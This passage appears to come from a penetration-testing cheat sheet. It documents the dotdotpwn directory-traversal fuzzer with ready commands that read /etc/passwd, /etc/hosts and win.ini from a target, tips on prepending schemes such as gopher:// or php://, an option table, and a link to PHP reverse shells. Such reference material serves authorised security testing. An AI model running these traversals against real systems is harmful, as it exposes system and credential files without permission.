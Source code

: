 ### dotdotpwn

Traverse a path (e.g., `somesite.com/../../../etc/passwd`):

```fundamental
dotdotpwn -q -m http -S -o windows -f /windows/win.ini -k mci -h somesite.com

dotdotpwn -q -m http -o unix -f /etc/passwd -k root -h somesite.com

dotdotpwn -q -m http-url -o unix -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=TRAVERSAL'
```

Try to prepend a protocol such as `file://`, `gopher://`, `dict://`, `php://`, `jar://`, `ftp://`, `tftp://`, etc., to the file path; e.g, `file://TRAVERSAL`.

Check some additional directory traversal tips at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md). Credits to the author!

| Option | Description |
| --- | --- |
| -m | Module (http, http-url, ftp, tftp payload, stdout) |
| -h | Hostname |
| -O | Operating System detection for intelligent fuzzing (nmap) |
| -o | Operating System type if known ("windows", "unix", or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (default: according to OS detected) |
| -S | Use SSL for HTTP and Payload module (not needed for http-url) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -k | Text pattern to match in the response |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |
| -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot(at)dot.pwn') |
| -M | HTTP Method to use when using the 'http' module (GET, POST, HEAD, COPY, MOVE, default: GET) |
| -b | Break after the first vulnerability is found |
| -C | Continue if no data was received from host |

### Web Shells

Find out more about PHP shells at [ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell).
